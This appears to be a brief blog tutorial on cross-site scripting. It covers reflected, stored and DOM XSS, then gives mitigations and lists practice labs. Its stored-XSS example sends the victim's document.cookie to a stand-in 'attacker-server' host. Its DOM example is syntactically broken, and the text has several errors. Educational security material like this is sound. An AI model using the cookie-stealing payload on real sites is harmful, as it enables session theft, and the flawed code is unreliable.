 ```yaml
---
title: Cross-site Scripting - known as XSS
date: 2021-06-01 18:28:16
tags: [XSS, Cross-site Scripting, Web Security]
---
```


## 1. Introduction

Cross-site scripting is an attack where some software applications take user's input in an insecure way. This happens via search fields in the web page, survey forms, cookies and other online web forms.

## 2. Reflected XSS

1. The website's results contain malicious scripts.

2. when attacker gives your web application JavaScript tags on input.

   ```html
   <script type="text/javascript">
     alert('Possible XSS');
   </script>
   ```

3. When the above script is returned to the user, browser will execute it, and I can be as simple as crafting a link and inducing a user to click it, which could cause much more dangerous.

## 3. Stored XSS

1. The malicious data is stored permanently on a database and is later accessed and run by the victims without having any knowledge of the attack. The classic example of stored XSS is a malicious scripted inserted by an attacker in a comment field on a blog, Social media, or in a forum post.

2. The script below attempts to load an image from the attacker's server with the victim's cookie data within the request URL.

   ```html
   <script>var+img=new+image();img.src='http://attacker-server/'+document.cookie;</script>
   ```

3. After a request for the image has taken place the attacker can extract the victim's session identifier from the webserver log files.
4. the most famous stored XSS bug was Samy worm which killed Myspace!!

## 4. DOM XSS

1. DOM stands for Document Object Model of the page. 

2. The script below is an example. DOM based XSS where in attacker's payload is executed as a result of modifying the DOM 'environment' in the victims' browser used by the original client-side script so that the client side code runs in an unexpected manner.

   ``` html
   <script>document.write("<b>Current URL</b>" : " document.baseURL);</script>
   ```

## 5. Mitigation of XSS

### Input validation

- We can take parameter from URL or data from text and limit the user Input by using known blacklist. It is difficult to add because everyday hackers coming up with different Polyglots. 

#### Output encoding 

- It is changing input so that it cannot be interpreted as code
- Some HTML encoding rules: 
  - ", &, <, >
- URL encoding/ percent encoding

#### Enable CSP

- Content Security Policy is set by application server to the browser's policy
- Set CSP via HTTP header by the web server

#### Use HTTP only Flag

- set http-only via Set-Cookie HTTP response header

## 6. Some site for learning CSS 

1. Google XSS Game
2. DVWA
3. Burp Academy
4. Pen-tester Lab